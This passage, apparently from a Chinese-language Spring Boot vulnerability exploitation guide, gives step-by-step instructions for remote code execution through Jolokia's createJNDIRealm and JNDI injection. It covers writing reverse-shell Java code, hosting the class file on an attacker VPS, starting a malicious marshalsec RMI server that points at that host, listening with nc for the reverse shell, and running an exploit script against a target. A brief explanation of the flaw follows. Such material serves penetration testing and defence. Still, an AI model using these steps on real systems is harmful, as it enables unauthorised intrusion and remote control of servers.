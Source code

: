 ##### 步骤二：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java)  `JNDIObject.java`。



##### 步骤三：托管 class 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

将**步骤二**中编译好的 class 文件拷贝到 HTTP 服务器根目录。



##### 步骤四：架设恶意 rmi 服务

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 rmi 服务：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://your-vps-ip:80/#JNDIObject 1389
```



##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lvp 443
```



##### 步骤六：发送恶意 payload

根据实际情况修改 [springboot-realm-jndi-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py) 脚本中的目标地址，RMI 地址、端口等信息，然后在自己控制的服务器上运行。



#### 漏洞原理：

1. 利用 jolokia 调用 createJNDIRealm 创建 JNDIRealm
2. 设置 connectionURL 地址为 RMI Service URL
3. 设置 contextFactory 为 RegistryContextFactory
4. 停止 Realm
5. 启动 Realm 以触发指定 RMI 地址的  JNDI 注入，造成 RCE 漏洞



#### 漏洞分析：

​	[Yet Another Way to Exploit Spring Boot Actuators via Jolokia](https://static.anquanke.com/download/b/security-geek-2019-q1/article-10.html)
